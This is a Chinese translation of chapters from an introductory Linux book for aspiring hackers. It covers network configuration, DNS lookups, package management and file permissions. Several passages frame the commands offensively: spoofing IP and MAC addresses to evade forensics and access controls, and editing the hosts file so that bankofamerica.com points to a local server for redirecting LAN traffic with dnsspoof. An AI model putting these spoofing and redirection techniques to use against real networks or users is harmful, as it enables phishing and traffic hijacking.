接下来，我们将看到无线网卡（适配器）未连接（未关联）到接入点 (AP) ，并且其功率为
20 dBm，这表示信号强度。 我们将在第14章节 中花更多时间介绍这些信息。

### 更改你的网络信息

具备更改你的IP地址和其他网络信息是一项十分有用的技能，因为它将帮助你来回穿梭于作为可信设备出现时才允许访问的其他网络。例如，在拒绝服务攻击
(DoS)
中，你可以使用欺骗的IP以致于攻击看上去来自其他地方，从而帮助你规避取证分析人员分析IP来源的可能。这在Linux上是一个相当简单的任务，使用
**ifconfig** 命令就可以完成它。

#### *更改你的 IP地址*

要更改IP地址，请输入 **ifconfig**
，然后输入要重新分配的网络接口以及要分配给该接口的新IP地址。 例如，要将IP地址
192.168.181.115 分配给接口 eth0，请输入以下内容：

kali \>ifconfig eth0 192.168.181.115

kali \>

当你正确地执行此操作时，Linux将简单地返回一个命令提示符并且没有任何输出。这是件好事（没有输出错误信息即代表执行成功）！

然后，当你再次使用 **ifconfig** 命令检查你的网络连接状态时，你应该能查看到你的
IP 地址被更改成你刚刚分配的那个新的IP地址。

#### *更改你的子网掩码和广播地址*

你也可以使用**ifconfig**命令改变你的子网掩码（netmask）和广播地址。例如，如果你想给相同的
eth0 接口分配信息，子网掩码为 255.255.0.0 a，广播地址为
192.168.1.255你可以输入以下内容：

kali \>ifconfig eth0 192.168.181.115 netmask 255.255.0.0 broadcast 192.168.1.255

kali \>

再一次声明，如果你正确地执行此操作，Linux仅以一个新的命令提示符作为响应。现在请再次输入
**ifconfig** 来验证每一个相关参数是否已相应更改。

#### *欺骗你的MAC地址*

你也可以使用 ifconfig 命令来改变你的 MAC 地址 (或者说 HWaddr). 这个 MAC
地址是全球唯一并且经常被当做一种安全措施来阻击黑客在网络外——或者说跟踪他们。更改你的
MAC 地址来欺骗不同的 MAC
地址几乎是很平常的操作，并且帮助你抵消这些安全措施。因此，这是一项非常有用的绕过网络访问控制技术。

如果你打算伪装你的 MAC 地址，简单地使用 ifconfig 命令的 down 选项来关闭该接口
(在本例中是 eth0) 。然后输入 **ifconfig** 命令并加上接口名称 (hw 表示硬件，ether
表示以太网) a和新的伪造 MAC 地址。最后，使用选项 up 备份接口以进行更改。

这里有个例子：

kali \>ifconfig eth0 down

kali \>ifconfig eth0 hw ether 00:11:22:33:44:55

kali \>ifconfig eth0 up

现在，当你使用 ifconfig 检查你的设置信息时，你应该能看到 HWaddr
更改成你新伪造的MAC地址。（*原书英文版IP
address勘误，根据上下文译者判断此处应为MAC地址*）。

#### *从DHCP服务器分配新的IP地址*

Linux有一个动态主机配置协议 (DHCP) 服务，它运行一个守护进程(daemon)—
一个在后台运行的进程—称为 dhcpd，或者说 dhcp daemon。DHCP
服务器为子网上的所有机器分配IP地址，并在随时维护将IP地址分配给哪台机器的日志文件。这使得它成为取证分析人员在攻击后追踪黑客的绝佳资源。出于这个原因，了解
DHCP 服务器的工作原理对一名黑客很有用。

通常来说，从局域网（LAN）连接到internet，你必须有一个 DHCP分配的
IP。因此，在你设置一个静态 IP 后，你必须返回和获取到一个新的 DHCP分配的 IP
地址。为了这么做，你总是需要重启你的系统，但是我将向你演示怎么检索一个新的 DHCP
而不必关闭你的系统并重启它。

要从 DHCP 请求 IP 地址，可以使用 dhclient
命令并在其后加上相应网络接口简单地调用DHCP
服务器，告知你希望分配地址。不同的Linux发行版使用不同的 DHCP 客户端，但是 kali
基于 Debian ，因而使用 **dhclient** 命令。因此，您可以指定一个新地址，如下所示：

kali \>dhclient eth0

命令**dhclient**从指定地网络接口（这里是eth0）发送DHCPDISCOVER请求。然后，它会从DHCP服务器（本例中是192.168.181.131）获得一个offer（DHCPOFFER）并使用dhcp请求确认对DHCP服务器的IP分配。

kali \>ifconfig

eth0Linkencap:EthernetHWaddr 00:0c:29:ba:82:0f

inet addr:192.168.181.131 Bcast:192.168.181.131 Mask:255.255.255.0

根据DHCP服务器的配置情况，在每种情况下IP地址分配可能是不同的。

当你现在输入 **ifconfig**
时，你应该能看到DHCP服务器已经分配了新的IP地址，广播地址，子网掩码给你的网络接口
eth0。

### 熟练控制你的域名系统

黑客可以很容易从目标的域名系统（DNS）中找到一个信息宝库。DNS在internet是一个至关重要的组成部分，尽管它的设计初衷是把域名转换成IP地址，但是黑客可以使用它从目标处收集信息。

#### *使用dig检测DNS*

DNS是把像hackers­arise.com这样的域名转换成相应的IP地址的服务；通过这种方式，你的机器知道如何到达它。没有DNS我们将不得不记住成千上万我们最喜欢的网站的IP地址——即使对于一个专业学者来说，这也不是一项小任务。

对于有尖端的黑客来说，**dig**是众多有用的Linux命令之一，它提供一种途径来收集目标域名的相关DNS信息。在进行攻击之前，存储在这里的DNS信息可以被认为是前期侦察获取信息的关键部分。这些信息可能包含目标名称服务器（将目标名称转换成IP地址的服务器）的IP地址，目标邮件服务器以及潜在的所有子域名和IP地址。

例如，输入**dig
hackers-arise.com**并加入选项ns(nameserver的缩写)。对于hackers­arise.com这个名称服务器显示在清单
3­3的ANSWER SECTION部分。

kali \>dig hackers-arise.com ns

­­snip­­

;; QUESTION SECTION:

;hackers­arise.com. IN NS

;; ANSWER SECTION:

hackers­arise.com. 5 IN NS ns7.wixdns.net.

hackers­arise.com. 5 IN NS ns6.wixdns.net.

;; ADDITIONAL SECTION:

ns6.wixdns.net. 5 IN A 216.239.32.100

­­snip­­

*清单 3­3: 使用 dig 和它的 ns 选项从一个域名服务器获取信息*

另外请注意，在ADDITIONAL SECTION部分，dig查询显示了为hackers­arise.com
提供服务的DNS服务器的IP地址(216.239.32.100)。

你也可以使用**dig**命令来获取电子邮件服务器信息，通过连接一个域名并加上选项mx(mx是邮件交换服务的缩写)。该信息对于电子邮件系统的攻击中至关重要。例如，www.hackers­arise.com电子邮件服务器上的信息在显示在清单
3­4的AUTHORITY SECTION部分中。

kali \>dig hackers-arise.com mx

­­snip­­

;; QUESTION SECTION:

;hackers­arise.com. IN MX

;; AUTHORITY SECTION:

hackers­arise.com. 5 IN SOA ns6.wixdns.net. support.wix.com 2016052216 10800

3600 604 800 3600

­­snip­­

*清单 3­4: 使用 dig 和它的 mx 选项来获取域名邮件交换服务器上的信息*

最常见的Linux DNS 服务是Berkeley Internet Name
Domain(BIND)。在某些情况下，Linux用户将DNS称为BIND，但是不要混淆：DNS和BIND都将各个域名映射到IP地址。

#### *更改你的DNS服务器* 

在某些情况下，你可能希望使用其他DNS服务器。为了这么做，你将编辑一个在操作系统名为/etc/resolv.conf纯文本文件。使用文本编辑器打开这个文件——这里我使用Leafpad。然后，在你的命令行输入你选择的编辑器准确的名称并在后面加上文件的位置和文件名。例如：

kali \>leafpad /etc/resolv.conf

将我指定的图形文本编辑器Leafpad里打开位于/etc目录下的resolv.conf文件在。这个文件的内容看上去应该如图
3­1所示。



*图 3­1: 在文本编辑器中的典型的resolv.conf 文件*

正如你在第三行看到的，我的名称服务器在这里设置为192.168.181.2的本地DNS服务器。它正常工作，但是如果我希望添加或者替换DNS服务器为8.8.8.8的Google公共DNS服务器。我需要在/etc/resolv.conf文件中添加以下行来指定这个名称服务器
：

nameserver 8.8.8.8

然后我需要保持这个文件。但是，你也可以通过输入以下指定命令达到同样的效果：

kali \>echo "nameserver 8.8.8.8"\> /etc/resolv.conf

这个命令回显字符串nameserver
8.8.8.8并将其重定向（\>）到文件/etc/resolv.conf中，替换掉当前的内容。你的/etc/resolv.conf文件现在应如图3-2所示。

*图 3­2: 更改 resolv.conf 文件信息来指定 Google DNS 服务器*

如果你现在打开/etc/resolv.conf文件，你将看到它将DNS请求指向Google的DNS服务器而不是本地DNS服务器。你的机器现在将转到Google公共DNS服务器来解析域名成IP地址。这意味着域名解析将花费更长的时间(可能是几毫秒)。因此，为了保持速度但保留使用公共服务器的选项，你可能需要在resolv.conf文件中重新保存本地DNS服务器，然后使用公共DNS服务器进行后续操作。操作系统按/etc/resolv.conf文件中列出的顺序查询每个DNS服务器，因此只有在本地DNS服务器中找不到域名时，系统才会引用公共DNS服务器。

#### *映射您自己的 IP 地址* 

在你的操作系统中一个被称为hosts的特殊文件总是执行域名——IP地址转换。这个hosts文件位于/etc/hosts，与DNS有点类似，你可以使用它来指定你自己的IP地址——域名映射。换句话说，当你在浏览器输入www.microsoft.com（或者其他任何域名）时，你可以决定浏览器将访问哪个IP地址而不是让DNS服务决定。对于黑客，这对于劫持局域网上的TCP连接以使用dnsspoof等工具将流量定向到恶意Web服务器非常有用。

在命令行中，输入以下命令 (你可以将首选文本编辑器替换为Leafpad):

kali \>leafpad /etc/hosts

你应该看到你的hosts文件，如图3-3所示



*图 3­3: 默认 Kali Linux hosts 文件*

默认情况下，hosts文件只包含localhost的映射(127.0.0.1)和你的系统主机名(本例中为Kali,
位于127.0.1.1)。但是你可以按照你的意愿添加任何IP地址映射到任何域名。举个如何使用它的例子，你可以将www.bankofamerica.com映射到你的本地网站，地址为192.168.181.131。

127.0.0.1 localhost

127.0.1.1 kali

192.168.181.131 bankofamerica.com

\# The following lines are desirable for IPv6 capable hosts

::1 localhost ip6­localhost ip6­loopback ff02::1 ip6­allnodes

ff02::2 ip6­allrouters

在IP地址和域名中间请确保你输入的是TAB键，而不是空格键。

随着您越来越多地参与黑客攻击工作并了解像dnsspoof和Ettercap这样的工具，您将能够使用hosts文件将访问www.bankofamerica.com的局域网上的任何流量定向到您的Web服务器192.168.181.131。

这些实际上都非常简单，对吧？

### 总结

任何黑客都需要一些基本的Linux网络技能来连接、分析和管理网络。随着你的进步，这些技能在侦察、欺骗和连接目标系统中将变得越来越有用。

4
-

添加和删除软件
--------------

ADDING AND REMOVING SOFTWARE

Linux或任何操作系统中最基本的任务之一便是添加和删除软件。您经常需要安装发行版中没有附带的软件，或者删除不需要的软件，这样就不会占用硬盘空间。

有些软件安装需要依赖其他软件才能运行，有时您会发现您可以在软件包安装过程中一次性下载所需的所有软件，软件包是一组文件(通常是库和其他依赖项)，您需要这些文件才能使软件成功运行。当您安装一个包时，包中的所有文件连同一个脚本一起安装，以简化软件的加载。

在本章中，我们将研究添加新软件的三个关键方法：**apt**包管理器、基于gui的安装管理器和**git**。

### 使用APT处理软件

在基于debian的Linux发行版(包括Kali和Ubuntu)中，默认的软件包管理器是高级打包工具apt，其主要命令是apt-get。在最简单和最常见的形式中，您可以使用apt-get下载和安装新的软件包，但也可以使用它更新和升级软件。

#### *搜索软件包*

在下载软件包之前，您可以检查所需的软件包是否在存储库中可用，存储库是操作系统存储信息的地方。apt工具有一个搜索功能，可以检查包是否可用。语法很简单:

apt­cache search keyword

注意，我们使用apt-cache命令搜索apt缓存，或者它存储软件包名的位置。例如，如果您正在搜索入侵检测系统Snort，您将输入图表
4-1所示的命令。

kali \>apt-cache search snort

fwsnort ­ Snort­to­iptables rule translator

ippl ­ IP protocols logger

\- snip -

snort ­ flexible Network Intrusion Detection System

snort­common ­ flexible Network Intrusion Detection System ­ common files

\- snip -

*清单4-1:使用apt-cache在系统中搜索Snort*

如您所见，许多文件中都有**snort**关键字，但是在输出的中间我们看到*snort -
flexible Network Intrusion Detection System*。这就是我们要找的!

#### *添加软件*

现在您已经知道snort包存在于存储库中，可以使用apt-get下载软件。

要在终端中从操作系统的默认存储库中安装软件，请使用**apt-get**命令，后面是关键字**install**，然后是要安装的包的名称。语法是这样的:

apt­get install packagename

让我们通过在系统上安装Snort来尝试一下。输入apt-get install
snort作为命令语句，如清单4-2所示。

kali \>apt-get install snort

Reading package lists... Done

Building dependency tree

Reading state information... Done

Suggested packages:

snort­doc

The following NEW packages will be installed: snort

­­snip­­

Install these packages without verification [Y/n]?

*清单4-2:使用apt-get安装安装Snort*

您看到的输出结果告诉您正在安装什么。如果一切正常，在出现提示时输入**y**，您的软件安装将继续。

#### *删除软件*

在删除软件时，使用带有**remove**选项的**apt-get**，后面跟着要删除的软件的名称(参见清单4-3)。

kali \>apt-get remove snort

Reading package lists... Done

Building dependency tree

Reading state information... Done

The following packages were automatically installed and are no longer

required:

libdaq0 libprelude2 oinkmaster snort­common­libraries snort­rules­default

­­snip­­

Do you want to continue [Y/n]?

*清单4-3:使用apt-get remove删除Snort*

同样，您将看到实时完成的任务，并将询问您是否希望继续。您可以输入**Y**来卸载，但是您可能希望继续使用Snort，因为我们将再次使用它。remove命令不会删除配置文件，这意味着您可以在将来重新安装相同的包，而无需重新配置。如果您确实希望在删除包的同时删除配置文件，可以使用清除选项，如清单4-4所示。

kali \>apt-get purge snort

Reading package lists... Done

Building dependency tree

Reading state information... Done

The following packages were automatically installed and are no longer required:
libdaq0 libprelude2 oinkmaster snort­common­libraries snort­rules­default

­­snip­­

Do you want to continue [Y/n]?

*清单4-4:使用apt-get清除删除Snort和附带的配置文件*

只需在提示符处输入**Y**，继续清除软件包和配置文件。

您可能已经注意到，在输出中显示有提示：The following packages were automatically
installed and are no longer required
。为了保持事物的小型和模块化，许多Linux包被分解成许多不同程序可能使用的软件单元。在安装Snort时，您安装了Snort运行所需的几个依赖项或库。现在您正在删除Snort，不再需要其他库或依赖项，因此也删除了它们。

#### *更新软件*

软件库将定期使用新软件或现有软件的新版本进行更新。这些更新不会自动进行，因此您必须手动请求它们，以便将这些更新应用到您自己的系统中。更新（update）与升级（upgrade）不同：更新只是更新可从存储库下载的包列表，而升级将把包升级到存储库中的最新版本。

您可以通过输入**apt-get**命令和关键字**update**来更新您的系统。这将搜索系统上的所有包并检查是否有更新。如果是，则下载更新(请参见清单4-5)。

kali \>apt-get update

Get:1 http://mirrors.ocf.berkeley.edu/kali kali­rolling InRelease [30.5kb] Get:2
http://mirrors.ocf.berkeley.edu/kali kali­rolling/main amd64 Packages

[14.9MB]

Get:3 http://mirrors.ocf.berkeley.edu/kali kali­rolling non­free amd64 Packages
[163kb]

Get:4 http://mirrors.ocf.berkeley.edu/kali kali­rolling/contrib amd64 Packages
[107 kB]

Fetched 15.2 MB in 1min 4s (236 kB/s) Reading package lists... Done

*清单4-5:使用apt-get更新更新所有过时的包*

系统存储库中可用软件的列表将被更新。如果更新成功，您的终端将声明 Reading package
lists...
Done，如清单4-5所示。注意，存储库的名称和值(时间、大小等等)在您的系统上可能是不同的。

#### *升级软件*

要升级系统上的现有软件包，请使用apt-get升级。因为升级包可能会更改软件，所以必须以root用户身份登录，或者在输入apt-get升级之前使用**sudo**命令。这个命令将升级apt列表存在的系统上的每个软件包，这意味着只升级存储在存储库中的包(参见清单4-6)。升级可能很耗时，因此您可能暂时无法使用您的系统。

kali \>apt-get upgrade

Reading package lists... Done

Building dependency tree... Done

Calculating upgrade... Done

The following packages were automatically installed and no longer required:

­­snip­­

The following packages will be upgraded:

­­snip­­

1101 upgraded, 0 newly installed, 0 to remove and 318 not upgraded. Need to get
827 MB of archives.

After this operation, 408 MB disk space will be freed.

Do you want to continue? [Y/n]

*清单4-6:使用apt-get升级升级所有过时的包*

您应该在输出中看到系统估计软件包所需的硬盘空间。如果您想继续，并且有足够的硬盘空间进行升级，请输入**Y**。

### 添加软件仓库到SOURCES.LIST文件

为Linux的特定发行版保存软件的服务器称为存储库。几乎每个发行版都有自己的软件存储库(为该发行版开发和配置的)，这些存储库可能不能很好地工作，或者根本不能与其他发行版一起工作。尽管这些存储库通常包含相同或类似的软件，但它们并不相同，有时它们具有相同软件的不同版本或完全不同的软件。

当然，您将使用Kali存储库，它有大量的安全和黑客软件。但由于Kali专门从事安全和黑客攻击，它不包括一些特殊的软件和工具，甚至一些普通的软件。如果系统没有在Kali软件存储库中找到特定的软件，那么值得添加一两个备份存储库供系统搜索。

您的系统将搜索的软件存储库存储在*sources.list*文件中。您可以更改此文件，以定义要从哪个存储库下载软件。我经常在*sources.list*中的Kali存储库之后添加Ubuntu存储库。这样，当我请求下载一个新的软件包时，我的系统将首先查看Kali存储库，如果没有软件包，它将查看Ubuntu存储库。

你可以找到*sources.list*文件在/etc/apt/*sources.list*。使用任何文本编辑器列出并打开它。我还是用Leafpad打开此文件。*sources.list*文件在终端中输入以下内容，用你自己使用的编辑器名称替换leafpad:

kali \>leafpad /etc/apt/sources.list

输入此命令后，您应该会看到一个类似于Kali默认存储库列表中的窗口。

*图4-1:source .list中Kali的默认存储库*

许多Linux发行版将存储库划分为不同的类别。例如，Ubuntu将其存储库分类如下:

**main**包含受支持的开源软件

**universe**包含社区维护的开源软件

**multiverse**包含受版权或其他法律问题限制的软件

**restricted** 包含专有设备驱动程序

**backports**包含来自后续版本的包

我不建议在*sources.list*中使用测试、实验性或不稳定的存储库。因为他们可以下载有问题的软件到你的系统。没有经过全面测试的软件可能会破坏您的系统。

当您要求下载一个新的软件包时，系统会按顺序查看*sources.list*中列出的存储库。并在找到所需的包时停止，首先检查存储库是否与您的系统兼容。和Ubuntu一样，Kali也是在Debian上构建的，所以这些存储库在每个系统上都能很好地工作。

要添加存储库，只需编辑*sources.list*。打开文件通过向列表中添加存储库的名称，然后保存该文件。例如，您想在Kali上安装Oracle
Java 8。默认的Kali源代码中没有适用于Oracle Java
8的apt包，但是在线快速搜索显示WebUpd8的优秀人员已经创建了一个。如果您将它们的存储库添加到*sources.list*中，那么您可以使用apt-get
install oracle-java8-installer安装程序命令来安装Oracle Java
8。在编写本文时，您需要将以下存储库位置添加到*sources.list*中，以便添加必要的存储库:

deb http://ppa.launchpad.net/webupd8team/java/ubuntu trusty main

deb­src http://ppa.launchpad.net/webupd8team/java/ubuntu precise main

### 使用基于Gui的安装程序

Kali的新版本不再包含基于gui的软件安装工具，但是您可以使用apt-get命令来安装它。最常见的两种基于gui的安装工具是Synaptic和Gdebi。让我们安装Synaptic并使用它来安装Snort包:

kali \>apt-get install synaptic

Reading package lists... Done

Building dependency tree

Reading state information... Done

­­snip­­

Processing triggers for menu (2.1.47)...

kali \>

一旦你安装了synaptic,你可以从设置▸新立得软件包管理器（Settings ▸ Synaptic
Package Manager）,应该打开窗口如图4­2。



*图4-2:Synaptic包管理器接口*

现在您可以搜索您正在寻找的包，只需单击Search选项卡打开一个搜索窗口。因为您再次寻找Snort，所以在搜索窗口中输入Snort并单击search。向下滚动搜索结果以找到您要查找的包。选中snort旁边的复选框，然后单击Apply选项卡，如图4-3所示。Synaptic现在将从存储库下载并安装Snort以及任何必要的依赖项。



*图4-3:从Synaptic包管理器下载Snort*

### 使用GIT安装软件

有时，您想要的软件在任何存储库中都不可用——尤其是在它是全新的情况下——但是它可能在github
(https://www.github.com/)上可用，这个站点允许开发人员与其他人共享他们的软件，以便下载、使用和提供反馈。例如，如果您想要蓝牙攻击和渗透套件bluediving，但是在Kali存储库中找不到它，那么您可以通过在浏览器搜索栏中输入*bluediving*来搜索。如果它存在于github上，您应该在搜索结果中看到它的存储库。

在github上找到软件后，可以通过输入git clone命令及其github
URL从终端安装软件。例如，bluediving位于https://www.github.com/balle/bluediving.git。要将其克隆到您的系统中，请输入清单4-7所示的命令。

kali \>git clone
https://[www.github.com/balle/bluediving.git](http://www.github.com/balle/bluediving.git)

Cloning into 'bluediving'...

remote: Counting objects: 131, Done.

remote: Total 131 (delta 0), reused 0 (delta 0), pack­reused 131 Receiving
objects: 100% (131/131), 900.81 KiB \| 646.00 KiB/s, Done.

Resolving deltas: 100% (9/9), Done.

Checking connectivity... Done.

*清单4-7:使用git clone 克隆bluediving*

git
clone命令将所有数据和文件从该位置复制到您的系统中。您可以使用目标目录上的长列表命令ls
-l检查它们是否已成功下载，如下所示:

kali \>ls -l

如果您已经成功地将bluediving克隆到您的系统中，您应该会看到以下输出:

total 80

drwxr­xr­x 7 root root 4096 Jan 10 22:19 bluediving

drwxr­xr­x 2 root root 4096 Dec 5 11:17 Desktop

drwxr­xr­x 2 root root 4096 Dec 5 11:17 Documents

drwxr­xr­x 2 root root 4096 Dec 5 11:17 Downloads

drwxr­xr­x 2 root root 4096 Dec 5 11:17 Music

­­snip­­

如您所见，bluediving已成功地克隆到系统中，并为其文件创建了一个名为bluediving的新目录。

### 总结

在本章中，您学习了许多在Linux系统上下载和安装新软件的方法。软件包管理器(如apt)、基于gui的安装程序和git
clone是有抱负的黑客需要知道的最常见和最关键的方法。你很快就会发现自己对它们都很熟悉了。

5
-

控制文件和目录权限
------------------

CONTROLLING FILE AND DIRECTORY PERMISSIONS

并非操作系统的每个用户都应具有相同级别的文件和目录访问权限。与任何专业操作系统一样，Linux具有保护文件和目录访问的方法。系统允许系统管理员（root用户或文件所有者）通过赋予用户读取，写入或执行文件的权限来保护其文件免受不必要的访问或篡改。对于每个文件和目录，我们可以为文件所有者、特定用户组以及所有其他用户指定权限状态，这在多用户操作系统中是必要的。

在本章中，我将向您展示如何检查和更改选定用户的文件和目录的权限，如何设置默认文件和目录权限以及如何设置特殊权限。最后，您将看到黑客对权限的理解如何帮助他们攻击系统。

### 多类型用户

在Linux系统中，root用户非常强大。root用户基本上可以执行任何操作。系统上的其他用户拥有有限的权限，不可能具有root用户具有的所有访问权限。

这些其他用户通常被收集到通常共享相似的组功能。在商业实体中，这些组可能是财务、工程、销售等。在IT环境中，这些组可能包括开发人员、网络管理员和数据库管理员。我们的想法是将具有相似需求的人员放入被授予相关权限的组中，然后该组的每个成员都会继承组权限。这主要是为了便于管理权限，从而确保安全性。

默认情况下，root用户是root组的一部分。必须将系统上的每个新用户添加到组中才能继承该组的权限。

### 赋予权限

必须为每个文件和目录分配使用它的不同身份的特定级别的权限。三个级别的许可如下：

**r** 读权限。赋予用户打开与查看权限

**w** 写权限。赋予用户查看与编辑写入权限

**x** 执行权限。赋予用户执行一个文件（但是没有必要查看或者编辑它）

通过这种方式，root用户可以根据用户需要的权限向用户授予一定级别的权限。创建文件时，通常创建文件的用户是文件的所有者，用户组是用户的当前组。该文件的所有者可以授予它各种访问权限。让我们看看如何更改权限以将所有权赋予给单个用户和组。

#### *赋予个人用户权限*

将文件的所有权转移到其他用户以便他们能够控制权限，我们可以使用chown（或更改文件所有者）命令：

kali \>chown ➊bob ➋/tmp/bobsfile

在这里，我们给出命令，我们给予所有权的用户的名称，然后是相关文件的位置和名称。此命令授予Bob➊对文件bobsfile➋所有权的用户帐户。

#### *赋予用户组权限*

要将文件的所有权从一个组转移到另一个组，我们可以使用chgrp（或更改组）命令。

黑客通常更有可能单独工作而不是团体工作，但对于一些黑客或测试者在项目上一起工作并不是闻所未闻，在这种情况下，使用组是必要的。例如，您可能有一组测试人员和一组安全团队成员在同一个项目上工作。此示例中的测试者是根组，这意味着他们具有所有权限和访问权限。root组需要访问黑客工具，而安全人员只需要访问防御工具，如入侵检测系统（IDS）。假设根组下载并安装名为newIDS的程序，根组需要将所有权更改为安全组，以便安全组可以随意使用它。为此，根组只需输入以下命令：

kali \>chgrp ➊security ➋newIDS

此命令改变安全组➊newIDS➋的所有权。

现在您需要知道如何检查这些分配是否有效。你可以通过检查文件的权限来做到这一点。

### 检查权限

如果要查找为文件或目录的哪些用户授予的权限，请使用带有**-l**（long）开关的**ls**命令来显示目录的内容。**ls
-l**命令在文件/ usr / share /
hashcat（我最喜欢的密码破解工具之一）上，以便查看我们可以在那里了解的文件。

kali \>ls –l /usr/share/hashcat

total 32952

➊➋ ➌ ➍ ➎ ➏ ➐

drwxr­xr­x 5 root root 4096 Dec 5 10:47 charsets

­rw­r­­r­­ 1 root root 33685504 June 28 2018 hashcat.hcstat

­rw­r­­r­­ 1 root root 33685504 June 28 2018 hashcat.hctune

drwxr ­xr­x 2 root root 4096 Dec 5 10:47 masks

drwxr ­xr­x 2 root root 4096 Dec 5 10:47 OpenCL

drwxr ­xr­x 3 root root 4096 Dec 5 10:47 rules

*清单 5­1:使用ls -l命令检查文件的权限*

我们获取有关以下内容的信息：

➊ 文件类型

➋ 所有者，组和用户的文件权限

➌ 链接数量（本主题超出了本书的范围。）

➍ 文件所有者

➎ 文件的大小（以字节为单位）

➏ 文件创建或上次修改时间

➐ 文件名

现在，让我们关注每条线左边看似难以理解的字母和短划线。它们告诉我们一个项目是文件还是目录，以及它上面有哪些权限（如果有的话）。

第一个字符告诉您文件类型，其中**d**代表目录，短划线（ **-**
）表示文件。这是两种最常见的文件类型。

下一节定义文件的权限。有三组三个字符，由read（**r**），write（**w**）和execute（**x**）的某种组合按顺序组成。第一组代表所有者的权限，第二组代表用户所在组的权限以及最后一个，所有其他用户的权限。

无论您正在查看哪一组三个字母，如果您首先看到**r**，该用户或用户组都有权打开和读取该文件或目录。作为中间字母的**w**意味着它们可以写入（修改）文件或目录，并且最后的**x**意味着它们可以执行（或运行）文件或目录。如果用短划线（
-
）替换任何r，w或x，则未给出相应的权限。请注意，用户只能执行二进制文件或脚本的权限。

让我们使用清单 5-1中的第三行输出作为示例：

­rw­r­­r­­ 1 root root 33685504 June 28 2018 hashcat.hcstat

正如我们从行的右端*hashcat.hcstat*所知，调用该文件。初始化（表示它是一个文件）之后，权限rw-告诉我们所有者具有读写权限但没有执行权限。

下一组权限（r--）表示该组的权限，并显示该组具有读取权限但不具有写入或执行权限。最后，我们看到其他用户也只有读取权限（r--）。

这些权限不是一成不变的。作为root用户或文件所有者，您可以更改它们。接下来，我们会做到这一点。

### 改变用户权限

我们可以使用Linux命令**chmod**来更改权限。
只有root用户或文件所有者才能更改权限。在本节中，我们使用**chmod**来更改hashcat.hcstat的权限两个不同的方法。首先，我们使用权限的数字表示，然后我们使用符号表示。

#### *十进制权限改变法*

我们可以使用快捷方式通过使用单个数字来表示一个rwx权限集来引用权限。与操作系统下的所有内容一样，权限以二进制表示，因此ON和OFF开关分别由1和0表示。您可以将rwx权限视为三个ON/OFF开关，因此当授予所有权限时，这相当于111的二进制。

这样的二进制集很容易通过将其转换为八进制来表示为一位数，八位数字系统以0开头并以7结尾。八进制数字表示一组三位二进制数字，这意味着我们可以表示整个rwx集用一位数。下表5-1包含所有可能的权限组合及其八进制和二进制代表。

表 5­1: 八进制和二进制权限表示

| **二进制** | **十进制** | **权限(rwx)** |
|------------|------------|---------------|
| 000        | 0          | \---          |
| 001        | 1          | \--x          |
| 010        | 2          | \-w-          |
| 011        | 3          | \-wx          |
| 100        | 4          | r--           |
| 101        | 5          | r-x           |
| 110        | 6          | Rw-           |
| 111        | 7          | rwx           |

通过这些信息，我们来看一些例子。首先，如果我们只想设置读权限，我们可以查询表5-1并找到read的值：

r w x

4 ­ ­

接下来，如果我们想要将权限设置为wx，我们可以使用相同的方法并查找设置w的权限以及设置x的权限：

r w x

­ 2 1

请注意，在表5-1中，-wx的八进制表示为3，这恰好是我们在设置w和x时添加两个值时获得的值相同：2
+ 1 = 3。

最后，当所有三个权限都打开时，它看起来像这样：

r w x

4 2 1

并且4 + 2 + 1 =
7。这里，我们看到在Linux中，当所有权限开关都打开时，它们由八进制等效值7表示。

因此，如果我们想要表示所有者，组和所有用户的所有权限，我们可以按如下方式编写它：

7 7 7

这是快捷方式的来源。通过传递**chmod**三个八进制数字（每个rwx一个）后跟文件名，我们可以为每种类型的用户更改该文件的权限。在命令行中输入以下内容：

kali \>chmod 774 hashcat.hcstat

看表5-1，我们可以看到这个语句给了所有者所有权限，分组所有权限，其他所有人（其他）只有读取权限。

现在我们可以通过在目录上运行**ls
-l**并查看hashcat.hcstat行来查看这些权限是否已更改。导航到该目录并立即运行该命令：

kali \>ls -l

total 32952

drwxr­xr­x 5 root root 4096 Dec 5 10:47 charsets

➊ ­rwxrwxr­­ 1 root root 33685504 June 28 2018 hashcat.hcstat

­rw­r­­r­­ 1 root root 33685504 June 28 2018 hashcat.hctune

drwxr ­xr­x 2 root root 4096 Dec 5 10:47 masks

drwxr ­xr­x 2 root root 4096 Dec 5 10:47 OpenCL

drwxr ­xr­x 3 root root 4096 Dec 5 10:47 rules

你应该在hashcat.hcstat行➊的左侧看到-rwxrwxr--。这确认chmod调用成功更改了文件的权限，以使所有者和组能够执行该文件。

#### *UGO权限改变法*

虽然数值方法可能是在Linux中更改权限的最常用方法，但有些人发现chmod的符号方法更直观，两种方法同样有效，所以只需找到适合你的方法。符号方法是通常称为UGO语法，代表用户（或所有者），组和其他人。

